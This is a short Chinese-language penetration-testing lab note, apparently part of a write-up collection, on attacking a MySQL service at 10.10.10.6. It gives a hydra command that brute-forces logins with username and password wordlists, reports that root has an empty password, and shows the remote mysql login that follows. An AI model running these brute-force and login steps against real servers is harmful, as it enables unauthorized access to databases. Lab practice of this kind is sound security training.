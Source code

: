 # 3306_mysql

使用hydra爆破

> hydra 10.10.10.6 -L /root/username.txt -P password.txt -p 3306 mysql

![image-20210319150832611](../../image/meteaspolitale2/image-20210319150832611.png)

得到root用户是空密码

直接远程登录

> mysql -h 10.10.10.6 -u root

![image-20210319152512329](../../image/meteaspolitale2/image-20210319152512329.png)

登录成功

使用图形化工具也可以连接成功

![image-20210319152919961](../../image/meteaspolitale2/image-20210319152919961.png)

![image-20210319153018887](../../image/meteaspolitale2/image-20210319153018887.png)